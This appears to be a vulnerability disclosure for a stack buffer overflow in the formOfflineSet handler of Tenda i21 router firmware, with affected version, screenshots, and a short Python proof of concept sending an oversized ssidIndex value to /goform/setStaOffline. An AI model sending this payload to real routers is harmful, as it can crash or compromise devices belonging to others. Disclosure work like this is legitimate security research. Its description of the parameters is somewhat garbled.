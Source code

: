 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2982.html

## Affected version

i21 V1.0.0.14(4656)

## Patch httpd

![image-20240425204703541](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240425204703541.png)

![image-20240425204602020](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240425204602020.png)

![image-20240425204639838](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240425204639838.png)

## Vulnerability details

In the i21 V1.0.0.14(4656) firmware has a stack overflow vulnerability in the `formOfflineSet` function. The `GO, index` variable receives the `GO, ssidIndex` parameter from a POST request. However, since the user can control the input of `GO, ssidIndex`, the statement `sprintf(weburl, "%s?index=%s", GO, index);` can cause a buffer overflow. The user-provided  `GO, ssidIndex` can exceed the capacity of the `weburl` array, triggering this security vulnerability.

![image-20240419205512693](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419205512693.png)

![image-20240419203746346](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419203746346.png)

![image-20240419203710925](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419203710925.png)

## POC

```python
import requests


ip = "192.168.84.101"
url = "http://" + ip + "/goform/setStaOffline"
payload = b"a"*2000

data = {"GO": "1", "ssidIndex": payload}
response = requests.post(url, data=data)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
